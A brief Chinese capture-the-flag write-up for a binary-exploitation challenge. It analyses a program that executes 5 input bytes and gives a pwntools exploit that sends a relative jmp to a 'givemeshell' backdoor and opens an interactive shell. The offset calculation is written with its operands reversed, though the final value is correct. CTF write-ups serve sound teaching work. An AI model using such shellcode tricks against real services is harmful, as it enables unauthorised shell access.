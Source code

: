 # shellcode level3

## 文件分析

下载`shellcode_level3`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 逆向

程序读入5字节并执行，且存在后门函数  
考虑跳转指令执行shellcode跳转到此处

Shellcode: e8 -> call; e9 -> jmp  
后面可跟相对地址（跳转地址-跳转命令所在地址+5）  
相对地址为4Bytes

全局变量code地址0x404089，后门函数`givemeshell`地址0x4011d6  
那么相对地址为0x404089 + 5 - 0x4011d6 = 0xffffd148 `int32_t`

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 46239)
sh.sendline(b'\xe9' + p32(0xffffd148))
sh.interactive()
```

Done.
